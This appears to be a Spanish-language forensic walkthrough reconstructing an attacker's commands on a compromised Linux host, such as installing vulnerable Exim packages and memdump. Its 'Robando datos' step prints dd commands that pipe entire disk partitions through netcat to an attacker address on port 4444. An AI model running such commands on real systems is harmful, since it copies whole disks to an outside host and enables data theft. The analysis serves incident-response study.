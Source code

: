 **5- Una vez instalados todos los paquetes vulnerables, sale de la carpeta y la elimina.**

```bash
cd ..
rm -rf exim4/
```

**6- Detiene todos las operaciones de la CPU con el comando halt.**

<li>Se usa para indicar al hardware que detenga todas las funciones de la CPU.</li>

<li>Es decir, reinicia o detiene el sistema</li>


**7- Instala el programa OpenSSH cifra las conexiones a traves de la red. (alternativa al SSH)**
```bash
apt-get install openssh-server
apt-get install openssh-server
```

**8- Configura el servidor de correo vulnerable y reinicia el sistema.**

```bash
cd /etc/exim4/
ls
vi update-exim4.conf.conf 
update-exim4.conf
halt
reboot
```

**9- Busca las rutas de los binarios gcc, memdump.**
<li>No tiene el binario memdump instalado, lo instala</li>
<li>memdump hace un volcado de memoria</li>
<li>gcc es un compilador</li>

```bash
whereis gcc
whereis memdump
apt-get install memdump
halt
```

**10- Comprueba si tiene conexion con su maquina dentro de la red**

```bash
ifconfig 
ping 192.168.56.1
```

**11- Robando datos**
<li>El comando dd es una herramienta muy poderosa, limpia, verifica, destruye, duplica datos.</li>
<li>Copió la partición a traves de una conexion usando netcat</li>
<li>Lo que hizo fue que todo el contenido de la particion se mandase a traves de esa conexion.</li>
<li>El atacante ubicado en la 192.168.56.1 se puso a la escucha por ese puerto desde su maquina y redirigió todo ese output a su maquina haciendo asi una copia de particiones a traves de la red.</li>

```bash
mount
sudo dd if=/dev/sda | nc 192.168.56.1 4444
dd if=/dev/sda | nc 192.168.56.1 4444
dd if=/dev/sda1 | nc 192.168.56.1 4444
```
